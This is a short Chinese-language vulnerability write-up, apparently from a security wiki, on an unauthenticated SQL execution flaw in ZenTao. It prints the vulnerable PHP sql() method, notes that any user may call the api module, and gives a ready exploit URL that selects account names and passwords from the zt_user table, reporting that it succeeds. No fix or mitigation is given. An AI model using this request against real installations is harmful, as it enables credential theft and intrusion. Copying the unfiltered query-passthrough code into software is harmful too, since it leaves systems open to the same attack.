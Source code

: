 

```php
public function sql($sql, $keyField = '')
{
    $sql  = trim($sql);
    if(strpos($sql, ';') !== false) $sql = substr($sql, 0, strpos($sql, ';'));
    a($sql);
    if(empty($sql)) return '';

    if(stripos($sql, 'select ') !== 0)
    {
        return $this->lang->api->error->onlySelect;
    }
    else
    {
        try
        {
            $stmt = $this->dao->query($sql);
            if(empty($keyField)) return $stmt->fetchAll();
            $rows = array();
            while($row = $stmt->fetch()) $rows[$row->$keyField] = $row;
            return $rows;
        }
        catch(PDOException $e)
        {
            return $e->getMessage();
        }
    }
}
```



这里并没有进行过滤，只使用了代码`$sql=trim($sql)`过滤了空格



我们看一下这里的调用这个方法需要的权限



![img](/assets/PeiQi-Wiki/img/zentao-20.png)



这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用`sql`方法进行查询(空格转换为+,绕过过滤)



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```



![img](/assets/PeiQi-Wiki/img/zentao-21.png)



成功执行sql语句